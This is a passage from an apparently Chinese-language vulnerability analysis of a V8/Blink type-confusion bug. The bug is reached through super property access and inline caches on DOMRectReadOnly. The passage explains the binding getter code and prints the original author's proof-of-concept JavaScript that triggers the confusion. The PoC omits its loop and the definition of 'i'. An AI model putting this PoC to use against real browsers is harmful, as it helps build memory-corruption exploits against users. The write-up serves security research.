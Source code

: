 而当我们通过 `temp.x` 去访问 `DOMRectReadOnly` 中的属性时，会调用 `out/Debug/gen/third_party/blink/renderer/bindings/core/v8/v8_dom_rect_read_only.cc` 下的 `XAttributeGetCallback` ：

```c++
void XAttributeGetCallback(const v8::FunctionCallbackInfo<v8::Value>& info) {
  RUNTIME_CALL_TIMER_SCOPE_DISABLED_BY_DEFAULT(
      info.GetIsolate(), "Blink_DOMRectReadOnly_x_Getter");
  BLINK_BINDINGS_TRACE_EVENT("DOMRectReadOnly.x.get");

  v8::Local<v8::Object> v8_receiver = info.This();
  DOMRectReadOnly* blink_receiver =
      V8DOMRectReadOnly::ToWrappableUnsafe(v8_receiver);
  auto&& return_value = blink_receiver->x();
  bindings::V8SetReturnValue(info, return_value,
                             bindings::V8ReturnValue::PrimitiveType<double>());
}
```

> `v8_dom_rect_read_only` 对应了 V8 下的 `DOMRectReadOnly` 对象，其他对象也有类似的命名规范，以 `V8_{FILE_NAME}` 

> `XAttributeGetCallback` 这类名称都是符合谷歌命名规范的，类似的其他属性可以通过对应的 `×AttributeGetCallback` 来找到。

`v8_receiver` 即为上述的 `JS_API_OBJECT` 对象，然后它会用 `ToWrappableUnsafe` 检查该对象是否为 `JS_OBJECT` 、`JS_API_OBJECT` 或 `JS_SPECIAL_API_OBJECT` ，最后将偏移为 0x10 处的 `blink_object` 返回，并强转为 `DOMRectReadOnly` 类型，之后再对其调用方法 `x` 获取其对应属性值。

### 漏洞触发原理

如您所见， `XAttributeGetCallback` 做了检查，如果 `receiver` 的类型不符合预期，那么就会在执行过程中报错：

```js
 class B {
    m() {
      return super.x;
    }
  }
  B.prototype.__proto__ = new DOMRectReadOnly(1, 1, 1, 1);
  let b = new B();
  b.m(); //<---- throws TypeError: Illegal invocation
```

而如果构建了超态内联缓存来绕过该检查，就能够避掷出错误，原作者给出了具体的 POC：

```js
class B {
  m() {
    return super.x;
  }
}

function main() {
  var domRect = new DOMRect(1, 1, 1, 1);
  domRect['a' + i] = 1;
  if (i < 20 - 1) {
    B.prototype.__proto__ = {};  //<----- sets to `{}` to avoid throw before triggering bug.
  } else {
    B.prototype.__proto__ = domRect;  //<----- triggers the bug after inline cache is created.
  }
  let b = new B();

  b.x0 = 0x40404040;
  b.x1 = 0x41414141;
  b.x2 = 0x42424242;
  b.x3 = 0x43434343;
  domRect.x; //<------ create inline cache
  b.m();     //<------ use inline cache, type confusion on i == 20
}  

```